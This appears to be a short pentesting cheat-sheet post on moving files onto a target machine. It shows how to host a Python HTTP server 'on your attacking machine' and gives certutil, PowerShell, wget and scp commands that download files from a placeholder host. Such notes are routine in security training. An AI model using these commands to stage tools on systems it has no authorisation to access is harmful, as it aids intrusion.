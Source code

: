 ```yaml
---
title: "File Transfer"
collection: posts
#type: "Undergraduate course"
permalink: /posts/2023-spring-teaching-3
#venue: "University 1, Department"
date: 2023-02-13
#location: "City, Country"
---
```








# File Transfer
 
 Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine. 
 ## Using Python
```bash
python3 -m http.server PORT_NUMBER
```
##
Now let's see how you can tranfer files on windows and linux

## Windows: 
**cmd :** 
```cmd
certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME
```
**powershell :**
```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```
## Linux
```bash
wget http://X.X.X.X/FILE_NAME FILE_NAME
```
##
There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.
 ```cmd
 scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
 ```
